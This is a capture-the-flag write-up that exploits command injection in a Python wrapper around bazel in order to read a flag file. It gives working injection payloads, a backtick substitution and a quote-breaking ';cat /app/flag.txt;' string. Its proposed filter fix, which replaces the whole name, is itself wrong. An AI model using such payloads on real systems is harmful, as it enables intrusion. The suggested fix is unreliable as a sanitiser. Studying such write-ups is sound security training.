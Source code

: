 ```yaml
---
created: 2024-07-21T03:54
updated: 2024-07-21T18:42
solves: 18
points: 474
---
```


So we have a python file that opens a testing suite...

```python
from subprocess import Popen

name = input('Enter name: ')

for c in '`$(){}':
    name.replace(name, '')

Popen([
    'bazel',
    'run',
    ':run',
    f'--action_env=NAME={name}'
], shell=False).communicate()
```

Wait a minute, nothing is actually being replaced here.

For it to be effective at removing characters it has to be like this.

```python
for c in '`$(){}':
    name = name.replace(name, '')
```

I guess the authors messed up?

```shell
$ nc zable.chal.imaginaryctf.org 1337
Enter name: `cat /app/flag.txt`
Hello, ictf{I_supp0se_if_a_hacker_can_run_bazel_on_your_system_things_are_already_bad}!
```

```flag
ictf{I_supp0se_if_a_hacker_can_run_bazel_on_your_system_things_are_already_bad}
```

---

After the CTF has ended I found out that the intended solution was exploiting bash file generation.

The task generates a bash script like this.

```shell
EXPORT NAME="<NAME>"
```

We can inject code to make it look like this.

```shell
EXPORT NAME="";cat /app/flag.txt;echo ""
```

The payload is hence `";cat /app/flag.txt;echo "`
